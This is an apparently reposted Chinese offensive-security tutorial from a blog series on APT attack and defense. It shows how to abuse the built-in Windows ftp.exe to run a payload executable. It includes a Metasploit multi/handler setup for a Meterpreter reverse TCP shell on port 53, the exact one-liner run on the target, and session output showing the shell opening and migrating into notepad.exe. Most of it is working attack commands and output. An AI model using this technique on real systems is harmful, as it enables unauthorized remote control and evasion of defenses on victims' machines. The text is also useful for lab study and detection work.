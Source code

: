 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**Ftp.exe简介：**

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

**说明：**Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

Windows 2003 默认位置：
`C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe`

Windows 7 默认位置：
`C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe`

**攻击机：** 192.168.1.4 Debian
**靶机：** 192.168.1.3 Windows 7

**配置攻击机msf：**

**注：**需设置参数 `set AutoRunScript migrate -f`
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > set AutoRunScript migrate ‐f

AutoRunScript => migrate ‐f

msf exploit(multi/handler) > exploit 
```
![](media/ba49d6ee6a8ab9586614befb0cf9c5b5.jpg)

**靶机执行：**

`echo !C:\Users\John\Desktop\rev_x86_53_exe.exe > o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o`

```bash
msf exploit(multi/handler) > set AutoRunScript migrate ‐f
AutoRunScript => migrate ‐f
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 10 opened (192.168.1.4:53 ‐> 192.168.1.3:5530)
at 2019‐01‐21 05:14:57 ‐0500
[*] Session ID 10 (192.168.1.4:53 ‐> 192.168.1.3:5530) processing AutoRunScript 'migrate ‐f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rev_x86_53_exe.exe (8832)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 8788 
```

![](media/949fe91f87123f2b6767a38e2dddc7db.jpg)

>   Micropoor
